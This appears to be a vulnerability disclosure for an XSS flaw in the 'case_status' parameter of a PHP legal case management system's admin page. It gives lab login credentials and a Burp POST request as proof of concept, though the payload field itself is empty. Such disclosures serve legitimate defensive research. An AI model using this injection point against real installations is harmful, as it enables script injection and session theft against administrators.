

## Legal Case Management System

## XSS on `/admin/case-status`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/case-status
```

The parameter `case_status` is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```

```

Burp Request:

```
POST /admin/case-status HTTP/1.1
Host: 192.168.150.131
Content-Length: 319
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylcuJPx5GUc99OT6k
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/case-status
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjRWaExxcFBSd0wyZ0ZoSXFzV2NrMlE9PSIsInZhbHVlIjoiRnpIdUNEalM4THlSZ2tFa0QyTHVIV2hBWUtrbHVxb2E3cGh4T01WTCt5RkU1VHZZTUkxS1BveVdKSHlIN3NlaSIsIm1hYyI6Ijk5MGE2M2Y3YzY2ZjhhYmE5NWQ1ZTk3MjcxMTdiMTU1NWYyYTZjNmQ5NzU4YmE0NDNkM2MxMDRmYWViOWRlOTYifQ%3D%3D; test_session=eyJpdiI6Im9mUWdNN0MxXC8xaGRsQnZLc2NZQzZRPT0iLCJ2YWx1ZSI6Ilplc1k4a0JvVTJiamsxS2ZTa1o3VGpVNjRxajN0YkxWdmMzSXp5SzdWUDJlRWpqRnJoSE1jTGNoMzE2OUpTV1wvIiwibWFjIjoiMGQ3N2EwMzQ4NjQ3NDEwMTM2NDVjOTJhZWM0ZGIyMmI2YWRiNjEwODI3ZDY0NDRlMzU4YTEzODI3ZjE2Mzg2OCJ9
Connection: close

------WebKitFormBoundarylcuJPx5GUc99OT6k
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundarylcuJPx5GUc99OT6k
Content-Disposition: form-data; name="case_status"


------WebKitFormBoundarylcuJPx5GUc99OT6k--

```

### Screenshot


